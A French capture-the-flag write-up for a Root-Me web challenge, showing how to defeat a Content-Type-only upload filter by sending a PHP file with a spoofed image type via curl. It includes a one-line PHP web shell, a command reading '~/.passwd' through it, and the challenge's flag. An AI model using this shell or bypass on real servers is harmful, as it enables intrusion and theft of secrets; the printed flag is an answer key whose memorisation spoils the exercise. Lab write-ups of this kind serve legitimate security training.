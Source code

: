 ## Challenges

### Serveur Web

### Challenge: File upload_Type MIME.md

#### Problème

Cette épreuve consiste à uploader un code PHP dans cette galerie de photos.

#### Résolution

Pour commencer ce défi, accédez à la page. Cliquez sur "upload", ce qui vous redirigera vers une page permettant de télécharger une image.
Remarque sur la page :
** NB : seuls les fichiers GIF, JPEG ou PNG sont acceptés **

En cliquant sur "choose file", vous pouvez choisir le fichier à télécharger.

Si vous choisissez un fichier.php, un message s'affichera :

** Wrong file type ! **

Nous allons contourner cette protection, qui semble être basée uniquement sur le champ Content-type.

Cliquez sur "F12", puis dans l'onglet "Application", cliquez sur "Cookies". Sélectionnez le fichier qui s'affiche et copiez la valeur du cookie "1b69ad9be6ea1f38e0b33a32b0a1ad16".

Dans le terminal, tapez la commande suivante :

Shell Ubunto: 

```shell
curl -i -F "file=@test.php;type=image/gif" --cookie "PHPSESSID=1b69ad9be6ea1f38e0b33a32b0a1ad16" "http://challenge01.root-me.org/web-serveur/ch21/?action=upload"
```

Le fichier test.php contient le code suivant :

```php
<?php
system($_GET['command']);
?>
```

Donc le fichier est bien uploadé sur le serveur, pour le vérifier vous pouvez accéder à l'URL suivante :

```
http://challenge01.root-me.org/web-serveur/ch21/?galerie=uploads/
```

On clique sur le fichier test.php, puis on ajoute la commande suivante à l'URL :

```shell
http://challenge01.root-me.org/web-serveur/ch21/?galerie=uploads/1b69ad9be6ea1f38e0b33a32b0a1ad16//test.php?command=cat ~/.passwd
```

Le flag s'affiche dans la page.

#### Solution

Le flag est : `a7n4nizpgQgnPERy89uanf6T4`.